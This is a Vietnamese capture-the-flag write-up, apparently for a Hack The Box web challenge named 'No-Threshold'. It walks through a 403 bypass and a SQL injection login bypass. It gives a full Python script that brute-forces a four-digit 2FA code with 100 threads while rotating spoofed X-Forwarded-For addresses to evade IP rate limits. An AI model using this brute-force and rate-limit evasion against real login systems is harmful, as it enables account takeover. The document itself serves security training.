









## No-Threshold




chỉ có feature login, nhưng khi click vào thì


lỗi 403 Forbidden với thông báo lỗi by administrator rules

mình research `bypass 403` từ Hacktrick

ok thành công vào login


mình view qua source `login.py`

có thể thấy query trực tiếp được gán value từ biến mà hacker kiểm soát được, dòng 28 dính lỗi SQL injection 100%

tại source entrypoint.sh mình thấy có `username= admin ` được insert vào database, ok vậy là mình đủ dữ liệu để exploit SQL injection



nó redirect tới 1 trang 2FA, mình sẽ mở lên


chỉ cho nhập 4 số, mình confirm được Code chạy từ 0000-9999, nảy số ra brute-force thôi.Nhưng

có vẻ như nó chặn ip nếu mình req quá nhiều lần, bypass cái này dễ thôi, mình sẽ dùng `X-Forwarded-For`thêm vào header

tiến hành viết script exploit
```
import requests
import sys
from concurrent. futures import ThreadPoolExecutor

def get_combinations_in_array(path):
    with open(path, 'r') as f:
        return f.read().splitlines()


def handle_response(response, combination):
    if "Invalid 2FA Code!" in response.text:
        print(f'Try: {combination}\n')
        return
    elif "flag" in response.text:
        print(f'GOT IT!\n2FA Code: {combination}\n{response.text}\n')
        sys.exit()
    else:
        print(response.text)


def send_request(ip, combination, headers, url):
    headers['X-Forwarded-For'] = ip
    data = {'2fa-code': str(combination)}

    response = requests.post(url, headers=headers, data=data)
    handle_response(response, combination)


def send_all_requests(url, combinations_array):
    base_ip = '192.168.'
    current_ip_suffix = [1, 1]
    headers = {
        'Host': '94.237.49.212:56223',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Referer': '94.237.49.212:56223/./auth/verify-2fa',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '13',
        'Origin': '94.237.49.212:56223',
        'DNT': '1',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
    }

    # Multi-threading requests sending (see python ThreadPoolExecutor lib for more informations)
    with ThreadPoolExecutor(max_workers=100) as executor:
        futures = []

        for i, combination in enumerate(combinations_array, start=1):
            ip = base_ip + str(current_ip_suffix[0]) + '.' + str(current_ip_suffix[1])

            future = executor.submit(send_request, ip, combination, headers, url)
            futures.append(future)

            if i % 5 == 0:
                current_ip_suffix[1] += 1

            if current_ip_suffix[1] > 254:
                current_ip_suffix[1] = 1
                current_ip_suffix[0] += 1

            if current_ip_suffix[0] > 254:
                current_ip_suffix = [1, 1]

            for future in futures:
                future.result()


if __name__ == '__main__':
    combinations_path = 'E:/4-digits-0000-9999.txt'
    url ='http://94.237.49.212:56223/auth/verify-2fa'

    combinations_array = get_combinations_in_array(combinations_path)
    send_all_requests(url, combinations_array)
```
FLAG: `HTB{1_l0v3_h4pr0x1_4cl5_4nd_4ll_1t5_xxxxxxx}`